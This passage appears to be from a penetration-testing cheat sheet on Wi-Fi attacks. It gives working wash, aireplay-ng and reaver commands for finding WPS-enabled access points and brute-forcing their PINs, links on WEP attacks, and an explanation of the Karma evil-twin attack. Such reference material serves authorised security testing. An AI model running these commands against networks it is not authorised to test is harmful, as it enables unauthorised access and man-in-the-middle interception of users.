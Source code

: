 ### WPS Pin attacks

```
# Identifying access points with WPS enabled
wash -i <INTERFACE> -s
```

We're looking for access point, in which the column **Lck** is equal to **No**.

```
# Get your MAC address
macchanger --show <INTERFACE>

# Fake authentication attack
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <YOUR_MAC> <INTERFACE>
```

#### Offline

```
# Offline brute force (pixie dust)
reaver -i wlan0 -b 00:06:91:DE:B1:30 -SNLAvv  -c 1 -K
```

#### Online

```
# Online brute force  
reaver -i <INTERFACE> -b <BSSID> -SNLAsvv -d 1 -r 5:3 -c <CHANNEL_NUMBER>
```

### Other WEP Attacks

#### Hirte attack

- [https://pentestlab.blog/2015/02/03/hirte-attack/](https://pentestlab.blog/2015/02/03/hirte-attack/)

#### Cafe Latte attack

- [https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html](https://www.computerworld.com/article/2539400/cafe-latte-attack-steals-data-from-wi-fi-users.html)

### Rogue access point

#### Karma attack

Vulnerable client devices broadcast a "preferred network list" (PNL), which contains the SSIDs of access points to which they have previously connected and are willing to automatically reconnect without user  intervention. These broadcasts are not encrypted and hence may be received by any WiFi access point in range. The KARMA attack consists in an access point receiving this list and then giving itself an SSID from the PNL, thus becoming an evil twin of an access point already trusted by the client.

Once that has been done, if the client receives the malicious  access point's signal more strongly than that of the genuine access  point (for example, if the genuine access point is nowhere nearby), and  if the client does not attempt to authenticate the access point, then  the attack should succeed. If the attack succeeds, then the malicious  access point becomes a man in the middle (MITM), which positions it to deploy other attacks against the victim device.
